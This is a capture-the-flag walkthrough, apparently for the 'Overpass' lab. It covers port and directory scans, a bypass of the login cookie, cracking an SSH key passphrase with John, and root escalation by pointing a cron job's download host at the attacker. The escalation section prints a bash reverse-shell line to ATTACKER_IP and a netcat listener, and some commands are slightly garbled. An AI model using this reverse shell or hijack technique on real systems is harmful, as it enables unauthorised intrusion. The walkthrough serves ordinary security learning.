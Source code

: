 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

It's a [CTF](../../3%20-%20Tags/Hacking%20Concepts/CTF.md) so we catch them all.

# Recon
## Nmap

We can use [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) to scan the target :

```
    22/tcp open ssh
    80/tcp open http
```

# Enumeration
## Gobuster

Now we can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to start [Enumeration](../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) :

```
    /admin
    /aboutus
```

visiting the /admin directory we find the login page for admins and in the /aboutus we find some names

- Ninja - Lead Developer
- Pars - Shibe Enthusiast and Emotional Support Animal Manager
- Szymex - Head Of Security
- Bee - Chief Drinking Water Coordinator
- MuirlandOracle - Cryptography Consultant

then we can look at the download of the Source code (go), we find another name (Steve) but nothing interesting

about, what is interesting here is the request for the name of the **login Cookie.**

# Exploit

For the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) we have to Bypass login [Cookies](../../3%20-%20Tags/Hacking%20Concepts/Cookies.md) and we see in the [Source Code](../../3%20-%20Tags/Hacking%20Concepts/Source%20Code.md) that we need to modify the parameter name=SessionToken to bypass login credentials access, we can do it from our [Developer tools](../../3%20-%20Tags/Hacking%20Concepts/Developer%20tools.md) on browser and just set the cookie name to \*\*==SessionToken==\*\* reloading the page we have access and find the **id_rca** of James.

## Ssh2John

we can use [Ssh2john](../../3%20-%20Tags/Hacking%20Tools/Ssh2john.md) `ssh2john id_rsa > jamhash` and `john jamhash --wordlist=/usr/share/wordlists/rockyou.txt`  and find <span style="color: rgb(45, 194, 107);">james13</span>

## SSH

we need to make the  [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) key executable :  `chmod 600 id_rsa` than we can `ssh james id_rsa p: james13`  and `cat user.txt`

# Privilege Escalation

For the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we  `cat etc/crontab`  and we find **buildscript.sh** [Bash](../../3%20-%20Tags/Hacking%20Concepts/Bash.md) but cant modify it, we’ll need to find a way to put in some custom code to run as root .

we can `cat etc/hosts` and we can edit overpass.thm pointing to our[IP address](../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) using [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) 

## Create the BuildScript  

```
              mkdir -p downloads/src in attacker machine ;
              cd downloads/src ;
              bash -i >& /dev/tcp/(ATTACKER_IP)/8080 0>&1  
              chmod +x buildscript.sh
```

then we create a [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) : `python3 -m http.server 80`  and open listener : `nc -lvpn 8080`

we will wait until it runs our script and then we’ll gain root access where we can find the flag as the root user in the root.txt file.